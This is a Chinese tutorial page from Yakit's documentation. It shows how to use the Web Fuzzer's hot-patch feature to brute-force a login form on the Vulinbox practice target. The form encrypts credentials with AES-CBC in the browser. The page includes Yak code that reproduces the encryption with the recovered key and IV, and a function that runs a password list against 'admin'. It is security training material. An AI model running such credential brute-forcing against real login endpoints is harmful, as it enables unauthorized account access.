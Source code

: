 ```yaml
---
sidebar_position: 19
---
```


# 十、热加载场景案例：爆破aes cbc加密
这篇文章我们将会介绍另一个热加载的实际应用案例：爆破aes cbc加密。我们以 yakit 官方的 Vulinbox靶场为例。

首先我们需要安全并启动 Vulinbox 靶场，打开 yakit ，点击**试验性功能 - (靶场)Vulinbox**：
![](/img/products/yakit/Fuzz-hotpatch-example2/1.png)

打开**Vulinbox 管理器**页面后，点击右上角的安装靶场：
![](/img/products/yakit/Fuzz-hotpatch-example2/2.png)

安装成功后，我们关闭**Vulinbox 管理器**页面后重新打开，看到已经提示安装成功的提示，我们点击启动靶场：
![](/img/products/yakit/Fuzz-hotpatch-example2/3.png)

在启动靶场中设置参数，我们默认即可，点击**启动靶场**按钮：
![](/img/products/yakit/Fuzz-hotpatch-example2/4.png)

等待下方页面输出`VULINBOX RUNNING IN：`的提示，说明靶场启动成功：
![](/img/products/yakit/Fuzz-hotpatch-example2/5.png)

接着我们手动访问该URL，打开靶场页面，找到`CryptoJS.AES(CBC) 前端加密登陆表单`：
![](/img/products/yakit/Fuzz-hotpatch-example2/6.png)

靶场页面如下所示：
![](/img/products/yakit/Fuzz-hotpatch-example2/7.png)

首先我们需要了解这个靶场，这个靶场的目的是要对用户和密码进行爆破，直到找到正确的用户名和密码。而用户名和密码是经过json序列化之后AES CBC的方式进行加密的，所以我们需要先对加密的过程进行分析。

为了完成这个靶场，我们需要了解一下AES算法。
> AES（Advanced Encryption Standard，高级加密标准）是一种对称加密算法，也就是说加密和解密使用相同的密钥。这是一种块加密算法，它以固定大小（128位，即16字节）的块来处理数据。
> 
> CBC（Cipher Block Chaining，密码块链）是AES中常用的一种工作模式。在CBC模式中，每个明文块在加密之前，都会与前一个密文块进行XOR（异或）操作，然后再进行加密。对于第一个明文块，因为前面没有密文块，所以会与一个初始化向量（IV）进行XOR操作。

查看源码，我们可以看到加密的过程如下：
```html
<script>
    var iv = CryptoJS.lib.WordArray.random(128/8);
    function generateKey() {
        return  CryptoJS.enc.Utf8.parse("1234123412341234")  // 十六位十六进制数作为密钥
    }
    const key = generateKey()
    // 解密方法
    function Decrypt(word) {
        return  CryptoJS.AES.decrypt(word, key, {iv: iv}).toString(); 
    }
    // 加密方法
    function Encrypt(word) {
        console.info(word);
        return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
    }
    function getData() {
        return {
            "username": document.getElementById("username").value,
            "password": document.getElementById("password").value,
        }
    }
    function outputObj(jsonData) {
        const word = JSON.stringify(jsonData);
        return {
            "data": Encrypt(word),
            "key": key.toString(),
            iv: iv.toString(),
        }
    }
    function submitJSON(event) {
        event.preventDefault();
        const url = "/crypto/js/lib/aes/cbc/handler";
        let jsonData = getData();
        let submitResult = JSON.stringify(outputObj(jsonData), null, 2)
        console.log("key", key)
        fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: submitResult,
        })
            .then(response => response.text())
            .then(data => {
                console.log("Success:", data);
                document.body.innerHTML = data;
            })
            .catch((error) => {
                console.error("Error:", error);
            });
    }
    document.getElementById("json-form").addEventListener("change", () => {
        let jsonData = {
            "username": document.getElementById("username").value,
            "password": document.getElementById("password").value,
        };
        document.getElementById("encrypt").innerHTML = JSON.stringify(outputObj(jsonData), null, 2)
        document.getElementById("input").innerHTML = JSON.stringify(jsonData, null, 2)
    })
    document.getElementById("json-form").addEventListener("submit", submitJSON)
</script>
```
当我们点击**Submit**按钮时，执行逻辑如下：
1. 调用getData函数获取用户在表单中填写的用户名和密码。
2. 调用outputObj函数，将获取到的数据进行AES CBC加密，并将加密后的数据、密钥和初始化向量（iv）一起封装成一个对象。
3. 将这个对象转换为JSON字符串，准备发送到服务器。
4. 使用fetch API向`/crypto/js/lib/aes/cbc/handler`这个后端接口发送一个POST请求，请求的body就是刚才生成的JSON字符串。

另外我们还需要了解一下iv和key的格式，实际上如果对CryptoJS这个库有了解的师傅应该知道，通过调用`CryptoJS.lib.WordArray.random`(iv的生成方式)和`CryptoJS.enc.Utf8.parse`(key的生成方式)生成的iv和key，通过调用`toString()`方法得到的字符串是经过hex过的。我们也可以通过在浏览器控制台中手动调用`iv.toString()`和`key.toString()`的方式或者查看[CryptoJS官方文档](https://cryptojs.gitbook.io/docs/)来了解。

在这之后我们使用yakit的 MITM 模块拦截真正的登录请求，来查看实际发送的数据，并思考如何使用热加载来实现爆破：
![](/img/products/yakit/Fuzz-hotpatch-example2/8.png)

接下来我们需要用 Yak 代码实现这个AES CBC加密，我们知道iv和key是固定的，所以我们可以先使用`codec.DecodeHex(data)`来把十六进制的字符串还原为原始的byte。
```go
// 这里我们使用了wavy call这个语法，即在调用时添加一个~符号，这个符号可以自动处理这个函数返回值中的错误
// 目前自动处理的行为是，如果这个函数结尾有错误，那么自动中断程序执行，抛出错误提示
// 其相当于自动调用die(err)
key = codec.DecodeHex("31323334313233343132333431323334")~
// 需要将iv改为你抓包到post参数的iv值
iv = codec.DecodeHex("03395d68979ed8632646813f4c0bbdb3")~
```

然后我们手动拼接需要使用的用户名和密码，将其转换为JSON字符串：
```go
username = "qwe"
password = "asd"
m = {"username": username, "password": password}
jsonInput = json.dumps(m)
```

另外，通过查询[CryptoJS官方文档](https://cryptojs.gitbook.io/docs/#block-modes-and-padding)知道，如果使用`CryptoJS.AES.encrypt()`进行加密，默认使用的是AES CBC加密方式，默认采用Pkcs7 padding。

在 Yak 代码中，我们也可以使用`codec.AESCBCEncryptWithPKCS7Padding(key, data, iv)`：
```go
result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
base64Result = codec.EncodeBase64(result)
printf("%s", base64Result)
```

最终的代码如下，我们可以将结果输出来查看结果是否正确，需要注意的是，结果可能与抓包页面中post参数的data值不一样，这实际上是因为在 Yak 代码中map是无序的：
```go
key = codec.DecodeHex("31323334313233343132333431323334")~
iv = codec.DecodeHex("03395d68979ed8632646813f4c0bbdb3")~
username = "qwe"
password = "asd"
m = {"username": username, "password": password}
jsonInput = json.dumps(m)
result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
base64Result = codec.EncodeBase64(result)
printf("%s", base64Result) // SUfWboJqpPH3p7I56a3Qn2NDJAtW2/Eq3HFSaLYltgHlKCq3AU/Q038zubFGX/3S
```

我们也可以将结果在浏览器控制台中调用`Decrypt("SUfWboJqpPH3p7I56a3Qn2NDJAtW2/Eq3HFSaLYltgHlKCq3AU/Q038zubFGX/3S")`来查看（`Decrypt`函数的返回值是十六进制字符串），发现可以正确解密，证明我们加密成功。

最后一步，我们编写一个真正可用的热加载函数，来对用户名和密码进行爆破，为了方便，我们将用户名固定为`["admin"]`。
```go
handle = func(p) {
    key = codec.DecodeHex("31323334313233343132333431323334")~
    iv = codec.DecodeHex("03395d68979ed8632646813f4c0bbdb3")~
    usernameDict = ["admin"]
    // passwordDict = x"{{x(pass_top25)}}" // 我们可以使用x前缀字符串来通过fuzztag语法获取pass_top25字典中的值
    passwordDict = ["admin", "123456", "admin123", "88888888", "666666"] // 也可以直接使用手写的list
    resultList = []
    for username in usernameDict {
        for password in passwordDict {
            m = {"username": username, "password": password}
            jsonInput = json.dumps(m)
            result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
            base64Result = codec.EncodeBase64(result)
            resultList.Append(base64Result)
        }
    }
    return resultList
}
```

将data参数设置为`{{yak(handle)}}`，点击**发送请求**按钮，可以看到我们成功爆破出用户名和密码：
![](/img/products/yakit/Fuzz-hotpatch-example2/9.png)

实际上，靶场每次启动时爆破成功的密码是随机的，所以师傅们在复现时遇到可能会遇到与图中不同的情况。

感谢看到最后的师傅，至此我们已经对 Web Fuzzer 的所有高级(复杂)用法进行了系统性的讲解。